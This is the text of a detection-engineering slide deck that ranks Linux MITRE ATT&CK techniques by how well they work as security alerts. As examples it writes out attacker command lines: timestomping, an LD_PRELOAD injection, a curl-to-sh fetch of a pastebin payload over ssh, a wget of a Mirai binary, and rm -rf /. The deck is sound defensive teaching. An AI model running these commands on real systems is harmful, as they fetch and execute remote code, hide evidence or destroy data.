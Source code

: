 Alertable Techniques for Linux Using MITRE ATT&CKTM

id -un
Tony Lambert
Detection Engineer/Intel Red Canary
@ForensicITGuy

 Find & detect adversaries using data  Recovering system administrator  Love to teach, hate to grade homework

Overview
 What's an alertable technique?  Decision criteria for alerting  The good, the bad, and the ugly

What's an alert?
 Notification of abnormal condition  Requires context for triage  Requires care and feeding for efficacy

Alert Workflow

Condition occurs
1

2
Alert fires

Defender investigates

3

4

Escalate or hide

Problems with Alerts
 High volume by default  Lack of context

Decision Criteria for Alerts
 Time to investigate (lower is better)  Significance of abnormality (urgent is better)  Time to respond (lower is better)

Alerts that don't suck

Timestomping (T1099)
touch -acmr /bin/sh /file/to/timestomp
 Quick to investigate  Significant destruction of evidence

Process Injection (T1055)
/etc/ld.so.preload LD_PRELOAD=/tmp/evil.so  Quick to respond  Used by rootkits, affects user tools

Masquerading (T1036)
/tmp/kworkerds /dev/shm/kthreadds  Quick to investigate  Signals significant abnormality

We can make these work...

Remote File Copy (T1105)
curl https://pastebin.com/evilThing wget http://<ip address>/mirai.x86  Requires much tuning  Hunt for outliers in command line

Remote Services (T1021)
ssh ... user@192.168.2.1 '(curl hxxps://pastebin.com/payload | sh'  Tune out deployment tools  Significant for lateral movement

Worst. Alerts. Ever.

Anything Discovery
whoami, netstat, ifconfig, etc.
 OS noise makes high volume  Better for cluster analysis

Sudo (T1169)
sudo ./make_sandwich.sh
 Long investigations with little return  Better for reporting/audits

File Deletion (T1107)
rm -rf /
 Probably non-functional rule  Helpdesk will know before the alert

Alert where possible, report/hunt otherwise
REDCANARY.COM/BLOG

Q & A
RESOURCES
https://github.com/bfuzzy1/auditd-attack https://github.com/Neo23x0/auditd


